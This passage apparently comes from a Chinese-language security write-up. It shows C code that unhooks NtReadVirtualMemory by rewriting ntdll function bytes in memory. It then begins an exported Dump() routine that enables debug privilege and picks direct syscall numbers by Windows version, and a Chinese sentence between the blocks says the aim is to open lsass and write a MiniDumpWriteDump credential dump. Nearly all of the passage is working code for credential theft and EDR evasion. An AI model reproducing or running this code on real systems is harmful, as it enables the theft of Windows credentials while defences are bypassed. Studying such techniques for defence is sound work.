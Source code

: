 ```
    LPVOID lpBaseAddress = lpProcAddress;
    ULONG OldProtection, NewProtection;
    SIZE_T uSize = 10;
    NTSTATUS status = ZwProtectVirtualMemory(GetCurrentProcess(), &lpBaseAddress, &uSize, PAGE_EXECUTE_READWRITE, &OldProtection);
    if (status != STATUS_SUCCESS) {
        return FALSE;
    }

    status = ZwWriteVirtualMemory(GetCurrentProcess(), lpProcAddress, (PVOID)AssemblyBytes, sizeof(AssemblyBytes), NULL);
    if (status != STATUS_SUCCESS) {
        return FALSE;
    }

    status = ZwProtectVirtualMemory(GetCurrentProcess(), &lpBaseAddress, &uSize, OldProtection, &NewProtection);
    if (status != STATUS_SUCCESS) {
        return FALSE;
    }

    return TRUE;
}
```

　　Unhook NtReadVirtualMemory之后，通过汇编调用ZwOpenProcess、ZwCreateFile来打开lsass进程、创建dump文件，然后再调用MiniDumpWriteDump来创建lsass的dump

```
__declspec(dllexport) void __cdecl Dump() {

    if (sizeof(LPVOID) != 8) {
        exit(1);
    }

    if (!IsElevated()) {
        exit(1);
    }

    SetDebugPrivilege();

    PWIN_VER_INFO pWinVerInfo = (PWIN_VER_INFO)calloc(1, sizeof(WIN_VER_INFO));

    // First set OS Version/Architecture specific values
    OSVERSIONINFOEXW osInfo;
    osInfo.dwOSVersionInfoSize = sizeof(osInfo);

    _RtlGetVersion RtlGetVersion = (_RtlGetVersion)
        GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlGetVersion");
    if (RtlGetVersion == NULL) {
        exit(1);
    }

    RtlGetVersion(&osInfo);
    swprintf_s(pWinVerInfo->chOSMajorMinor, _countof(pWinVerInfo->chOSMajorMinor), L"%u.%u", osInfo.dwMajorVersion, osInfo.dwMinorVersion);
    pWinVerInfo->dwBuildNumber = osInfo.dwBuildNumber;

    // Now create os/build specific syscall function pointers.
    if (_wcsicmp(pWinVerInfo->chOSMajorMinor, L"10.0") == 0) {
        ZwOpenProcess = &ZwOpenProcess10;
        ZwClose = &ZwClose10;
        NtCreateFile = &NtCreateFile10;
        pWinVerInfo->SystemCall = 0x3F;
```